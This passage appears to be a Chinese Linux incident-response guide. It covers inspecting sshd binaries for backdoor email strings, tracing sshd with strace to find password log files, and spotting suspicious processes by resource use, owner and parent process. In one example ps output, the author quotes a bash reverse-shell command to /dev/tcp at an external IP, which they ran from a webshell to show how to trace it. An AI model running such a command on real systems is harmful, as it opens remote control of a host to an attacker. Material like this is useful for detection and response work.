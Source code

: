3）strings检查/usr/sbin/sshd，看是否有邮箱信息

strings可以查看二进制文件中的字符串，在应急响应中是十分有用的。有些sshd后门会通过邮件发送登录信息，通过strings /usr/sbin/sshd可以查看到邮箱信息。

4）通过strace监控sshd进程读写文件的操作

一般的sshd后门都会将账户密码记录到文件，可以通过strace进程跟踪到ssh登录密码文件。



```
ps axu | grep sshd | grep -v grep
root 65530 0.0 0.1 48428 1260 ? Ss 13:43 0:00 /usr/sbin/sshd
strace -o aa -ff -p 65530
grep open aa* | grep -v -e No -e null -e denied| grep WR
aa.102586:open("/tmp/ilog", O_WRONLY|O_CREAT|O_APPEND, 0666) = 4
```

**0x03 进程**

检查是否存在可疑进程，需要注意如果攻击者获取到了Root权限，被植入内核或者系统层Rootkit的话，进程也会隐藏。

**1）资源占用**

Top然后找到CPU和MEM排序

**2）启动时间**

可疑与前面找到的Webshell时间点比对。

**3）启动权限**

这点很重要，比如某次应急中发现木马进程都是mysql权限执行的，如下所示：



```
mysql 63763 45.3 0.0 12284 9616 ? R 01:18 470:54 ./db_temp/dazui.4
mysql 63765 0.0 0.0 12284 9616 ? S 01:18 0:01 ./db_temp/dazui.4
mysql 63766 0.0 0.0 12284 9616 ? S 01:18 0:37 ./db_temp/dazui.4
mysql 64100 45.2 0.0 12284 9616 ? R 01:20 469:07 ./db_temp/dazui.4
mysql 64101 0.0 0.0 12284 9616 ? S 01:20 0:01 ./db_temp/dazui.4
```

那基本可以判断是通过Mysql入侵，重点排查Mysql弱口令、UDF提权等。

**4）父进程**

例如我在菜刀中反弹Bash



```
[root@server120 html]# ps -ef | grep '/dev/tcp' | grep -v grep
apache 26641 1014 0 14:59 ? 00:00:00 sh -c /bin/sh -c "cd /root/apache-tomcat-6.0.32/webapps/ROOT/;bash -i &gt;&amp; /dev/tcp/192.168.192.144/2345 0&gt;&amp;1;echo [S];pwd;echo [E]" 2&gt;&amp;1
```

父进程进程号1014



```
[root@server120 html]# ps -ef | grep 1014
apache 1014 1011 0 Sep19 ? 00:00:00 /usr/sbin/httpd
```
